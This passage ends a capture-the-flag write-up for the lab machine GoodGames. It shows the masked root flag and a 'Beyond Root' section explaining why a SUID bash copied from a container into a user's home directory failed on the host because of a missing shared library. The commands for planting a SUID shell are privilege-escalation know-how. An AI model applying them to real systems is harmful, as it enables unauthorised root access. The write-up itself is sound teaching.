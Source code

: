 
And I can fetch the flag:

    
    
    bash-5.1# cat /root/root.txt
    820d1e82************************
    

## Beyond Root

The first time I tried to escalate here, I copied the `bash` binary from in
the container into augustus’ home directory and made it SUID:

    
    
    root@3a453ab39d3d:/home/augustus# cp /bin/bash .
    root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
    root@3a453ab39d3d:/home/augustus# ls -l bash 
    -rwsrwxrwx 1 root root 1099016 Feb 22 15:18 bash
    

It shows up the same way on GoodGames:

    
    
    augustus@GoodGames:~$ ls -l bash 
    -rwsrwxrwx 1 root root 1099016 Feb 22 15:18 bash
    

But running it errors out:

    
    
    augustus@GoodGames:~$ ./bash -p
    ./bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file: No such file or directory
    

Running `ldd` shows how this binary loads libraries:

    
    
    augustus@GoodGames:~$ ldd bash 
            linux-vdso.so.1 (0x00007ffc64194000)
            libtinfo.so.5 => not found
            libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa964fc8000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fa964e03000)
            /lib64/ld-linux-x86-64.so.2 (0x00007fa964fd7000)
    

It clearly shows that `libtinfo.so.5` is not found. The standard `bash` binary
on the host is using `libtinfo.so.6`:

    
    
    augustus@GoodGames:~$ ldd /bin/bash
            linux-vdso.so.1 (0x00007ffd31e97000)
            libtinfo.so.6 => /lib/x86_64-linux-gnu/libtinfo.so.6 (0x00007f28239dd000)
            libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f28239d7000)
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2823812000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f2823b4e000)
    

[](/2022/02/23/htb-goodgames.html)

